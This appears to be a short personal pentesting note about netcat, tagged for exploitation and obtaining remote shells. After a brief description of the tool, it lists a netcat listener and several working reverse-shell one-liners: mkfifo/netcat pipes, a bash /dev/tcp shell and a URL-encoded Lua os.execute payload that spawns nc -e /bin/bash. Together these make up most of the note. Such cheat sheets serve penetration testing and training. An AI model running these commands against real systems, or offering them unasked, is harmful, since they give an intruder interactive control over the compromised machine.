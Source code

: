 ```yaml
---
tags:
  - Exploitation
  - ObtainingRemoteShells
  - Tooling
---
```

Netcat is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It can be used for a wide range of tasks, such as port scanning, transferring files, and creating backdoors. Netcat operates by establishing connections between two computers over a network and can work with both TCP and UDP protocols.

# Guide

1. Windows version, see [[Powercat]]
## Creating Listeners

1. **Ensure** you are listening on a port the victim also has open

```
nc -nvlp <PORT> 
```


`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.102.113 443 >/tmp/f`

`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
try nc shells 
`os.execute(%27nc%2010.10.14.133%204444%20-e%20/bin/bash%27)%20--`

`nc -c bash xxx xxx`

`mkfifo /tmp/grpoa; nc 192.168.56.1 1337 0</tmp/grpoa | /bin/sh >/tmp/grpoa 2>&1; rm /tmp/grpoa`